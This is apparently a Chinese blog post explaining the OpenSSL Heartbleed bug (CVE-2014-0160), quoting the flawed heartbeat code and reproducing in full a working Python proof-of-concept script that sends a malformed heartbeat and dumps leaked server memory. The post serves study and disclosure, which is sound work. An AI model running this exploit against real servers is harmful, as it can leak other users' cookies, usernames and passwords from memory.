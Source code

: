 文章参考内容来源：
[乌云-关于OpenSSL心脏出血的分析][1]
[github-py][2] （用来学习）    
[Heartbleed 实战：一个影响无数网站的缓冲区溢出漏洞][3]  
[Openssl 漏洞POC学习][4]

</br>

好久不冒泡 =w=， 刚好最近互联网界出了件大事，就是openssl的heartbleed，波及范围之广就不用多说了，反正应该是很多人睡不着觉了。=w=我呢，就对这个事件做一次原理的记录。

我们看heartbleed这个名字，搞过网络编程的同学应该都知道心跳包，很常见，是一种用来检测对端是否还存活的手段，防止大量已死的对端还在占用链接，而ssl也是有heartbeat的，ssl的心跳包协议是这个样子：
心跳包类型，1byte
载荷长度，2byte，
载荷内容，最大为2^14
协议还规定，收到心跳包以后将载荷回显，表示还活着，那么我们看ssl的代码：

        hbtype = *p++;
        n2s(p, payload);
        pl = p;

 这段代码的意思： hbyte首先取得心跳包的类型，n2s这个函数是什么意思呢？是将p指向的两个字节，也就是载荷的长度放入payload变量中，并且将p + 2, 指向载荷。

再来看另一段代码(节选)：  

        if (hbtype == TLS1_HB_REQUEST) {
                unsigned char *buffer, *bp;
                int r;

                buffer = OPENSSL_malloc(1 + 2 + payload + padding);
                bp = buffer;

                *bp++ = TLS1_HB_RESPONSE;
                s2n(payload, bp);
                memcpy(bp, pl, payload);
                bp += payload;
        }

如果发来的包是心跳包，那么首先malloc，这里我们看到是65535 这么多个字节，s2n是什么意思呢？就是将payload也就是长度放入bp中。然后拷贝这么多字节到bp，也就是缓冲区当中。

也就是说，可能payload是虚假的，比如我实际心跳包数据只有一个字节，我写一个65535 -100 的数字到payload中，OpenSSL这里是完全不检查实际长度的。那么将近64kb的内存会被泄漏出来，而且这64kb是pl的，在SSLv3记录的附近，一些cookie, 甚至usrname, password都不能幸免。

那么我们来看python脚本攻击的代码， 代码如下，地址文章的最开始有。

<!--more-->

        #!/usr/bin/python
	
	# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
	# The author disclaims copyright to this source code.
	
	import sys
	import struct
	import socket
	import time
	import select
	import re
	from optparse import OptionParser
	
	options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
	options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
	
	def h2bin(x):
	    return x.replace(' ', '').replace('\n', '').decode('hex')
	
	hello = h2bin('''
	16 03 02 00  dc 01 00 00 d8 03 02 53
	43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
	bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
	00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
	00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
	c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
	c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
	c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
	c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
	00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
	03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
	00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
	00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
	00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
	00 0f 00 01 01                                  
	''')
	
	hb = h2bin(''' 
	18 03 02 00 03
	01 40 00
	''')
	
	def hexdump(s):
	    for b in xrange(0, len(s), 16):
	        lin = [c for c in s[b : b + 16]]
	        hxdat = ' '.join('%02X' % ord(c) for c in lin)
	        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
	        print '  %04x: %-48s %s' % (b, hxdat, pdat)
	    print
	
	def recvall(s, length, timeout=5):
	    endtime = time.time() + timeout
	    rdata = ''
	    remain = length
	    while remain > 0:
	        rtime = endtime - time.time() 
	        if rtime < 0:
	            return None
	        r, w, e = select.select([s], [], [], 5)
	        if s in r:
	            data = s.recv(remain)
	            # EOF?
	            if not data:
	                return None
	            rdata += data
	            remain -= len(data)
	    return rdata
	        
	
	def recvmsg(s):
	    hdr = recvall(s, 5)
	    if hdr is None:
	        print 'Unexpected EOF receiving record header - server closed connection'
	        return None, None, None
	    typ, ver, ln = struct.unpack('>BHH', hdr)
	    pay = recvall(s, ln, 10)
	    if pay is None:
	        print 'Unexpected EOF receiving record payload - server closed connection'
	        return None, None, None
	    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
	    return typ, ver, pay
	
	def hit_hb(s):
	    s.send(hb)
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ is None:
	            print 'No heartbeat response received, server likely not vulnerable'
	            return False
	
	        if typ == 24:
	            print 'Received heartbeat response:'
	            hexdump(pay)
	            if len(pay) > 3:
	                print 'WARNING: server returned more data than it should - server is vulnerable!'
	            else:
	                print 'Server processed malformed heartbeat, but did not return any extra data.'
	            return True
	
	        if typ == 21:
	            print 'Received alert:'
	            hexdump(pay)
	            print 'Server returned error, likely not vulnerable'
	            return False
	
	def main():
	    opts, args = options.parse_args()
	    if len(args) < 1:
	        options.print_help()
	        return
	
	    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	    print 'Connecting...'
	    sys.stdout.flush()
	    s.connect((args[0], opts.port))
	    print 'Sending Client Hello...'
	    sys.stdout.flush()
	    s.send(hello)
	    print 'Waiting for Server Hello...'
	    sys.stdout.flush()
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ == None:
	            print 'Server closed connection without sending Server Hello.'
	            return
	        # Look for server hello done message.
	        if typ == 22 and ord(pay[0]) == 0x0E:
	            break
	
	    print 'Sending heartbeat request...'
	    sys.stdout.flush()
	    s.send(hb)
	    hit_hb(s)
	
	if __name__ == '__main__':
	    main()

重点在与hb这个包，根据协议，第0位是心跳包的类型，1，2是Openssl的版本类型，3， 4是message的长度， 5位是message的类型，6,7是payload length，可以看到没有实际的payload，那么周围的信息全部会被dump出来，这个就是核心的代码。

这次的事件也算给自己以后写代码提个醒 ，不能太过相信用户。嘛。新一轮的改密码风波来了，我总有预感，这事还没结束。 ^ ^

  [1]: http://drops.wooyun.org/papers/1381
  [2]: https://github.com/musalbas/heartbleed-masstest
  [3]: http://elevencitys.com/?p=7254
  [4]: http://blog.csdn.net/youfuchen/article/details/23279547
